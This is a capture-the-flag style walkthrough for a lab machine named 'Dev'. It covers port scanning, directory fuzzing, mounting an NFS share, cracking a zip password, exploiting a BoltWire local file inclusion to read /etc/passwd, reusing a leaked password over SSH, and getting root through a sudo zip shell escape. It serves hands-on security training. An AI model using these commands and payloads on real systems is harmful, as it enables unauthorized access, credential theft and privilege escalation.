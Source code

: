 # Dev Walkthrough

## Enumeration
```bash
nmap -A -T4 -p- $IP -oA $IP-dev-scan
```

Of interest to us are ports: 80, 2049, and 8080:
![[nmap scan of Dev.png]]
On port 80, it seems to be running Bolt CMS, but this shows us an error page and on port 8080, we see that it's a PHP running PHP Version 7.3.27-1

Let's fuzz against port 80 and 8080. Make sure to replace the IP address with your target IP:
For port 80 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179/FUZZ
```

For port 8080 do:
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.122.179:8080/FUZZ
```

From the result, we see that for both ports, there is a `server-status` page.

Port 80 fuzz results:
![[ffuf fuzz on port 80.png]]

Port 8080 fuzz results:
![[ffuf fuzz on port 8080.png]]

We can try to mount the nfs directory:
```bash
showmount -e 192.168.122.179
```
![[showmount of nfs.png]]

First, make a directory, with sudo privileges, in `/mnt` called `/mnt/dev`
```bash
sudo mkdir /mnt/dev
```

Then mount the directory to `/mnt/dev`:
```bash
sudo mount -t nfs 192.168.122.179:/srv/nfs /mnt/dev
```

After changing into the directory and list out it's contents, we see that there is a password-protected zip file called `save.zip`.
Make sure to install `fcrackzip` by doing:
```bash
sudo apt install fcrackzip
``` 
to crack the zip so that we can get the password and unzip it.

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
![[fcrackzip on save.zip.png]]
Using `java101` as the password, we use `unzip save.zip` and find 2 files: `id_rsa` and `todo.txt`

If we browse to the directories listed after we had fuzzed the ports, we find something at `http://192.168.122.179/app/`
![[app directory.png]]

Might come in handy from file `config.yml`:
![[sqlite database credentials.png]]
```bash
username: bolt
password: I_love_java
```

Let's create a new user. We will use the credentials `hacker:hacker` in our example. We don't find anything that we can do with this so search on Google for **boltwire exploit**. You can also do `searchsploit boltwire`.
![[searchsploit boltwire.png]]

Let's use the exploit for LFI. The link to the exploit: https://www.exploit-db.com/exploits/48411
![[exploit-db for boltwire LFI.png]]
Make sure you have a registered user and paste it into this into the URL: `index.php?p=action.search&action=../../../../../../../etc/passwd
`
Notice that we have LFI:
![[LFI successful.png]]

`jeanpaul` is a user that has `/bin/bash` access:
![[jeanpaul has bash access.png]]

Let's use `jeanpaul` to `ssh` into the server. We will try to use the password that we got from the `config.yml` file.
![[ssh as jeanpaul.png]]

It works!

Try to see what `jeanpaul` can execute:
![[jeanpaul privileges.png]]

We can escalate privileges by going out to https://gtfobins.github.io/gtfobins/zip/ and copy/pasting and executing the first two lines: 
![[gtfobins for zip.png]]

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

We have root!
![[We have root and the flag.png]]

Done.